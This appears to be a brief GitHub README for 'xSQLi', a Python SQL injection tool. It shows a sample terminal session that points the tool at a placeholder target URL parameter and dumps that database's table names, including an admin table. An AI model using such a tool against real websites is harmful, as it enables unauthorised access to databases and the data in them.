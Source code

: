 # xSQLi

root@blackHat:~/xSQLi# python3 xSQLi.py 

 Injection Ponit : https://www.target.com/index.php?id=inject
 
 (table/column)? : table //What You Want To Dump?
 
 From 		 : 1  //How Many Table Or Column You Want To Dump?
 
 To   		 : 3

________________________________________________________________________
1) :tbl_admin
2) :tbl_sample
________________________________________________________________________

			                      Finished!!!

root@blackHat:~/xSQLi#
